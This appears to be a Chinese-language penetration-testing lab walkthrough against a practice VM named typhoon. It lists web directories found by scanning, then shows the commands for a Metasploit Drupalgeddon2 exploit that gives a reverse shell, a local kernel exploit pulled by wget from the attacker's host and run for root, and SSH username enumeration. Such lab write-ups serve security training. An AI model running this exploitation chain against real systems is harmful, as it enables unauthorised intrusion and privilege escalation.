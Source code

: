 http://192.168.253.135/cms/
http://192.168.253.135/drupal/
http://192.168.253.135/phpmyadmin/
http://192.168.253.135/javascript/
http://192.168.253.135/robots.txt

通过dirb对目标网站进行扫描发现存在phpmyadmin以及robots.txt和drupal，cms等目录文件


--------------------------------------------
--------------------------------------------
4、攻击路径一：drupal漏洞利用   (项目十四)

msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 192.168.253.135
set TARGETURI /drupal
run

成功拿到反弹shell！

shell
/bin/bash -i

uname -a
Linux typhoon.local 3.13.0-32-generic

searchsploit 3.13.0
searchsploit -m linux/local/37292.c
wget http://192.168.253.138:8081/37292.c

gcc 37292.c -o dayu
chmod +x dayu
./dayu

成功拿到root权限！


--------------------------------------------
--------------------------------------------
5、攻击路径二：ssh端口爆破

发现端口22开放，其版本为openssh 6.6.1p1
利用OpenSSH新爆出的CVE爆出目标主机的用户，这对特定的用户爆破密码，建议爆破1000条！

searchsploit openssh
OpenSSH 2.3 < 7.7 - Username Enumeration

利用msf进行账号枚举。这里的用户名字典我采用：
msfconsole
search ssh/ssh_
use auxiliary/scanner/ssh/ssh_enumusers
set rhosts 192.168.253.135
set rport 22
set threads 20
set USER_FILE /root/Desktop/66/namelist.txt
run
[+] 192.168.253.135:22 - SSH - User 'admin' found
